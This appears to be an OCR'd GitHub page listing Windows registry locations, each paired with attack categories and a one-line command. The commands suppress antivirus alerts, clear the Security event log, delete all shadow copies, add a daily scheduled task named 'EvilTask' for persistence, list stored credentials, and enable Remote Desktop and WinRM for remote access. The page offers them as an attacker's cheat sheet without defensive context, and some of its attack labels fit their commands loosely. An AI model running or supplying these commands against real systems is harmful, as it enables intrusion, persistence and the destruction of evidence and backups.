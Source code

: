 ### Windows Security Center Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Security Center`  
**Attacks:** Security Alert Suppression, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Security Center /v AntiVirusDisableNotify /t REG_DWORD /d 1`

### Windows Event Viewer Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\EventViewer`  
**Attacks:** Log Manipulation, Evidence Tampering  
**Codes:** `wevtutil cl Security`

### Windows Performance Monitor Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Perflib`  
**Attacks:** System Monitoring, Data Theft  
**Codes:** `logman create counter EvilMonitor -o "C:\evil.log" -f csv -v mmddhhmm -c "\Processor(_Total)\% Processor Time"`

### Windows Power Configuration Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Power`  
**Attacks:** Energy Consumption Manipulation, Denial of Service  
**Codes:** `powercfg /hibernate off`

### Windows Credential Manager Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Cryptography\Protect\Providers\df9d8cd0-1501-11d1-8c7a-00c04fc297eb`  
**Attacks:** Credential Theft, Data Decryption  
**Codes:** `cmdkey /list`

### Windows Task Scheduler Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache`  
**Attacks:** Scheduled Task Manipulation, Persistence  
**Codes:** `schtasks /create /tn EvilTask /tr evil.exe /sc daily`

### Windows System Restore Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore`  
**Attacks:** System Restore Manipulation, Evidence Tampering  
**Codes:** `vssadmin delete shadows /all`

### Windows Remote Management Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WSMAN`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `winrm quickconfig -q`

### Windows Remote Desktop Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0`

